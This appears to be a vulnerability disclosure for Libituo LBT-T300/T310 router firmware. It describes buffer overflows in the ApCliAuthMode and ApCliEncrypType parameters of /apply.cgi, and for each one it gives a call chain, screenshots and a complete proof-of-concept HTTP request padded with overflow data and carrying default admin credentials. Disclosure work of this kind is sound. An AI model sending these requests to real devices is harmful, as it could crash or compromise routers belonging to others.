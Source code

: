 # LBT-T310 Buffer Overflow
**Vulnerability description**
Shenzhen Libituo Technology Co., Ltd LBT-T300-T310 v2.2.2.6 was discovered to contain a buffer overflow via multiple  parameters at /apply.cgi.

## 1.ApCliAuthMode

### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliAuthMode parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5860fcd7934499a8682a15e826b797e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPENAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

## 2.ApCliEncrypType
### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliEncrypType parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/8316e2625c1b41d3a8dee38af221a239.png

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3fc42eb40440bf94d969296e821661.jpeg)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPEN&ApCliEncrypType=NONEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```
